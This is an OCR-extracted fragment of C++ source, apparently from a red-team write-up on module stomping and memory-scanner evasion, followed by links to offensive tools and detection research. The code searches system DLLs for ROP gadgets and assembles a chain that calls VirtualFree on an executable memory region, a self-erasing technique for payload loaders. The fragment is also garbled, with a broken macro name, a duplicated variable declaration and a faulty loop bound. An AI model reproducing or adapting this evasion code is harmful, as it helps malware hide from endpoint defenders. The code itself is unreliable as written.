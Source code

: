 ```cpp
#endif

#ifdef USE_ISOLATED MEMORY
    LPVOID ropInjectorAddress = VirtualAllocFunc(NULL, N_ROP_GADGETS * MOV_SPACE + 1, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

#ifdef ENABLE_NULL_CHECKS
    if (NULL == ropInjectorAddress) {
        return EXIT_FAILURE;
    }
#endif


#endif
    LPVOID ropInjectorAddress = (LPVOID)((UINT64)address + (UINT64)(ropInjectorOffset));

#ifdef _DEBUG
    printfFunc("RX Memory start address: 0x%llx\n", (ULONG64)address);
    printfFunc("RX Memory end address: 0x%llx\n", (ULONG64)address + rxMemoryRegionSize);
#endif

    /*
    
    The following code takes care of identifying the relevant gadgets for our ROP chain
    It also thinks about JIT compile the ROP injector for us to execute.
    
    */

    // Our ROP will be constituted by 7 chunks of 8 bytes each
    UCHAR ropChain[N_ROP_GADGETS * 8] = {0};

    UINT64 moduleAddresses[3] = {(UINT64)msvcrtdll, (UINT64)ntdll, (UINT64)kernel32dll};

    UINT found[N_ROP_GADGETS] = { FALSE };
    UINT moduleIndex = 0;

    /*
   <<POP RCX; RET;> GADGET>
   <<RX-SECTION-ADDRESS> REVERSED>
   <<POP RDX; RET;> GADGET>
   \x00\x00\x00\x00\x00\x00\x00\x00
   <<POP R8; RET;> GADGET>
   \x00\x00\x08\x00\x00\x00\x00\x00
   <<VirtualFree> ADDRESS-OF>
   */

    // Some indexes are static and can be populated immediately
    // The second chunk is the address to free
    _Hton((ULONG64)address, ropChain, 1 * 8);
    found[1] = TRUE;
    // The fourth chunk is 0
    found[3] = TRUE;
    // The sixth chunk is MEM_RELEASE
    ropChain[5 * 8 + 1] = 0x80;
    found[5] = TRUE;

    // The last chunk is VirtualFree address
    _Hton((ULONG64)VirtualFreeFunc, ropChain, 6 * 8);
    found[6] = TRUE;

    while (!Finished(found) && moduleIndex < sizeof(moduleAddresses)) {

        // We select a module to search in and start
```

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://github.com/Idov31/FunctionStomping
[3]: https://bruteratel.com/research/feature-update/2021/01/30/OBJEXEC/
[4]: https://github.com/Idov31/FunctionStomping
[5]: https://twitter.com/Idov31
[6]: https://twitter.com/hasherezade
[7]: https://twitter.com/modexpblog
[8]: https://www.arashparsa.com/bypassing-pesieve-and-moneta-the-easiest-way-i-could-find/
[9]: https://twitter.com/waldoirc
[10]: https://github.com/waldo-irc/YouMayPasser/
[11]: https://blog.f-secure.com/cowspot-real-time-module-stomping-detection/
[12]: https://twitter.com/_rastamouse
[13]: https://offensivedefence.co.uk/posts/module-stomping/